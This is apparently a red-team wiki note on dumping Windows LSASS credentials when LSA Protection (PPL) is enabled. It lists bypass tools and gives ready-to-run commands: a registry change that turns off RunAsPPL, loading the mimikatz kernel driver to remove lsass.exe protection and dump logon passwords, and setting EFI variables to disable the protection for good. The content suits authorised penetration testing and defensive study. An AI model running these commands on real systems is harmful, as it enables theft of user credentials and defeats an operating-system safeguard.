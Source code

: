 ```yaml
---
title: LSASS Dump against LSA Protection
---
```


[[notes/windows/lsass-dump]] when LSASS runs as [[notes/windows/ppl|PPL]] process.
This blocks *Security Support Providers* like the [[notes/tools/mimikatz]] `misc:memssp` module and is enabled by default on Windows 11 ([source](http://web.archive.org/web/20230530211030/https://emptydc.com/2022/06/08/windows-credential-dumping/)).

Other tools:

- [PPLdump](https://github.com/itm4n/ppldump), patched since Windows 10 21H2 Build 19044.1826 ([source](http://web.archive.org/web/20221111124550/https://itm4n.github.io/the-end-of-ppldump/))
- [PPLKiller](https://github.com/redcursorsecurityconsulting/pplkiller), loads malicious driver, worked on Windows 10.0.19042

Untested tools:

- [PPLFault](https://github.com/gabriellandau/PPLFault/), exploits TOCTOU in Windows Code Integrity to achieve code execution as WinTcb-Light, patched since February 2024 ([source](https://twitter.com/GabrielLandau/status/1757818200127946922))
- [PPLmedic](https://github.com/itm4n/PPLmedic), also see [Bypassing PPL in Userland (again)](https://web.archive.org/web/20230318085001/https://blog.scrt.ch/2023/03/17/bypassing-ppl-in-userland-again/), patched in Windows 11 Insider ([source](https://twitter.com/depletionmode/status/1637179196270051329))

References:

- [Do you really know about LSA Protection (RunAsPPL)?](http://web.archive.org/web/20221111124635/https://itm4n.github.io/lsass-runasppl/)
- [Duping AV with handles](http://web.archive.org/web/20221111124905/https://scribe.rip/@skelsec/duping-av-with-handles-537ef985eb03)

# Discovery

Check for *LSA Protection*.

=== "builtin"
    ~~~ bat
    reg.exe query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb ws01.corp.com --local-auth -u administrator -p 'passw0rd' -M runasppl
    ~~~

Check for Secure Boot with `msinfo32`.

# Without Secure Boot

Disable *LSA Protection* in the registry, reboot, wait for users to log back in and dump LSASS.
The registry value is ignored when Secure Boot is enabled.

~~~ bat
reg.exe add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 00000000 /f
~~~

# Against Secure Boot

Patch *LSA Protection* in memory until the next reboot trough [[notes/tools/mimikatz]] kernel driver, then proceed to dump LSASS.

~~~ bat
sc.exe create katzsvc binPath= %cd%\mimidrv.sys type= kernel start= demand
sc.exe start katzsvc
.\mimikatz.exe "!processprotect /process:lsass.exe /remove" sekurlsa::logonpasswords exit
sc.exe stop katzsvc
sc.exe delete katzsvc
~~~

Or place `mimidrv.sys` next to `mimikatz.exe` and do everything in one go.

~~~ bat
.\mimikatz.exe token::elevate privilege::debug !+ "!processprotect /process:lsass.exe /remove" sekurlsa::logonpasswords !- exit
~~~

To disable *LSA Protection* permanently set EFI variables trough the kernel driver.

~~~ bat
.\mimikatz.exe "sysenv::get /name:Kernel_Lsa_Ppl_Config /guid:{77fa9abd-0359-4d32-bd60-28f4e78f784b}" exit
.\mimikatz.exe privilege::sysenv "!+" "!sysenv::set /name:Kernel_Lsa_Ppl_Config /guid:{77fa9abd-0359-4d32-bd60-28f4e78f784b} /attributes:0x07 /data:00000000" "!-"  exit
~~~

Alternatively disable LSA protection permanently with the official [LSA Protected Process Opt-out](https://www.microsoft.com/en-us/download/details.aspx?id=40897).
It seems like this can be done with just `bcdedit.exe` as well ([source](http://web.archive.org/web/20221206133633/http://publications.alex-ionescu.com/NoSuchCon/NoSuchCon%202014%20-%20Unreal%20Mode%20-%20Breaking%20Protected%20Processes.pdf)).
